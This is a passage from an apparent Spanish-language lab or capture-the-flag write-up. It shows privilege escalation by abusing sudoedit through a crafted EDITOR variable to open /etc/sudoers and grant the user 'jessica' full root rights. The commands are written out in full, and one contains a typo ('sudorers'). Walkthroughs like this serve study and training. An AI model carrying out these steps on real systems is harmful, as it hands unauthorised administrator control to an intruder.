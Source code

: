 
para explotar la vulnerabilidad necesitamos una variable `EDITOR` pero esta hace uso de un editor.

```c
export EDITOR="vim -- /etc/sudoers"
```

![20240920134657.png](20240920134657.png)

observamos que el único que esta instalado es `nano`

```c
export EDITOR="nano -- /etc/sudorers"
```

ahora debemos ejecutar:

```c
sudo sudoedit /var/www/html/index.php
```

![20240920135240.png](20240920135240.png)

Ahora debemos de darnos permisos:

```c
jessica ALL=(ALL:ALL) ALL
```
